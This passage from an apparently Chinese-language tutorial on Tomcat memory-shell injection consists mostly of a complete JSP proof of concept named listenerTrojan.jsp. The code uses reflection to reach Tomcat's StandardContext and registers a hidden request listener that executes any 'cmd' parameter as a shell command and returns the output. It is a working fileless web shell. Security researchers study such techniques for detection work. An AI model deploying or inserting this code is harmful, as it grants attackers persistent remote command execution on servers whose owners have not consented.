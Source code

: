 ```java
standardContext.addApplicationEventListener(listener);
```

注意这里request1需要用final修饰，不然在newServletRequestListener匿名内部类里无法使用，会报`Cannot refer to the non-final local variable request1 defined in an enclosing scope`错误

POC：

```java
// listenerTrojan.jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Scanner" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  Field requestField = request.getClass().getDeclaredField("request");
  requestField.setAccessible(true);
  final Request request1 = (Request) requestField.get(request);
  StandardContext standardContext = (StandardContext) request1.getContext();

  ServletRequestListener listener = new ServletRequestListener() {
    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
      
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
      HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
      HttpServletResponse resp = request1.getResponse();
      if (req.getParameter("cmd") != null) {
        try {
          boolean isLinux = true;
          String osTyp = System.getProperty("os.name");
          if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
          }
          String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
          InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
          Scanner s = new Scanner(in).useDelimiter("\\A");
          String out = s.hasNext()?s.next():"";
          resp.getWriter().write(out);
          resp.getWriter().flush();
        }catch (IOException ioe){
          ioe.printStackTrace();
        }
      }
    }
  };
  standardContext.addApplicationEventListener(listener);
  out.println("inject done!");
  out.flush();
%>
```
